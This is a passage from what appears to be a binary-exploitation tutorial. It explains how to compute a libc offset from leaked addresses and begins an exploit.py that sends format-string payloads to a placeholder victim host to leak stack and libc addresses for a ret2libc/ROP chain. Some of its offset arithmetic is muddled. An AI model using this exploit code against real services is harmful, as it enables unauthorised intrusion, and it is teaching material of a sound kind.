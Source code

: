 ```
libc address = leaked_address - stack_base / 8 (byte-size) + 6 (padding) = libc's position in memory
```

Our position will then be in hex, we need to obtain the decimal conversion of that hex number.&#x20;

**Example**

```
0x789dd19c58−0x789dd19670 = 0x5E8
```

We then take this and do the following:

```
0x5E8 / 8 + 6 = hex_position -> convert to decimal = libc_distance
```

```
0x5E8 / 8 + 6 = C3 -> Converted to Decimal = 195
```

### We can then start crafting out an exploit!

Using the data collected above, we can start crafting an exploit!

{% hint style="info" %}
**🚨 Be sure to be conscious of the comments that are throughout the code. Some important enumeration information that is necessary to exploit the target has been commented out for brevity, simplicity, or for the sake of a separate cyber effect (type of vulnerability) to be brought on upon the target.**
{% endhint %}

**`exploit.py`:**

```python
#!/usr/bin/env python2.7

# exploit.py -- featuring a multi-type exploit against a single target
# Featuring ret2win, ret2libc, memory leak address enumeration, and ROP chain

import socket
import time
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("<victim_ip_here>",<victim_port_here>))
data = s.recv(200)
# Leak Stack Address
print "Step 1: Leak Stack Address!\n";
s.send("%26$lx")            # Seemingly reoccurring address in debugger
leakedStack = s.recv(200)   # Receive 200-bytes
print "[+] Leaked process stack: 0x" + leakedStack   # Print received values from above

print"---------------------------------------------"

# Leak Libc address
print "\nStep 2: Leak libc address from the stack!\n"
print "[!] Leaking libc address and sending format string of %195$ls to our vulnerable program"
s.send("%195$lx")           # Sending format string to program  
leakedLibc = s.recv(200)    # Receive leaked libc address
print "[+] Leaked libc address: 0x" + leakedLibc

leakedStack = int("0x"+leakedStack, 16)
leakedStackTop = leakedStack - 0x1B8
print "[+] Calculated stack top: " + hex(leakedStackTop)

```